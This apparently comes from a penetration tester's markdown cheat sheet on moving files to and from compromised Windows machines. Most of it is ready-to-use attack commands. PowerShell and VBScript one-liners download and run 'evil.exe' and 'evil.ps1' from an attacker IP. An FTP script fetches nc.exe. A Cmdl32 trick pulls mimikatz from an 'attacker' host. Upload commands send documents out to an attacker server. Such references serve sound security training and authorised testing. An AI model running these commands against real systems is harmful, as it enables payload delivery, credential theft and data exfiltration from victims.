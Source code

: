 # File Transfers

## Download

### Powershell

```
# Simple one-liner
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.0.0.1/evil.exe', 'evil.exe')

# Execute powershell scripts without saving to disk
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.0.0.1/evil.ps1')
```

### FTP

Use of embedded ftp client. Add -s option to give a file containing FTP commands:

```
echo open 10.0.0.1 21> ftp.txt
echo USER test>> ftp.txt
echo pwd>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

Execute:

```
ftp -v -n -s:ftp.txt
```

Server (Linux):

```
python -m pyftpdlib -p 21
```

### TFTP

```
tftp <IP> GET <file>
```

Server (Kali):

```
systemctl start atftpd
```

{% hint style="info" %}
Default dir: /srv/tftp
{% endhint %}

### VBScript

Simple HTTP downloader script:

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Execute:

```
cscript wget.vbs http://10.0.0.1/evil.exe evil.exe
```

### Exe2hex

```
# Attacker
upx -9 evil.exe
exe2hex -x evil.exe -p evil.cmd

# Victim -> copy/paste the content of evil.cmd in a shell
```

### Cmdl32

```
icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
echo [Connection Manager] > settings.txt
echo CMSFile=settings.txt >> settings.txt
echo ServiceName=WindowsUpdate >> settings.txt
echo TunnelFile=settings.txt >> settings.txt
echo [Settings] >> settings.txt
echo UpdateUrl=http://attacker/mimikatz.exe >> settings.txt
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
move <tmp_filename>.tmp mimikatz.exe
```

## Upload

### Powershell

```
powershell (New-Object System.Net.WebClient).UploadFile('http://10.0.0.1/upload.php', 'doc.docx')
```

### TFTP

```
tftp -i 10.11.0.4 put important.docx
```
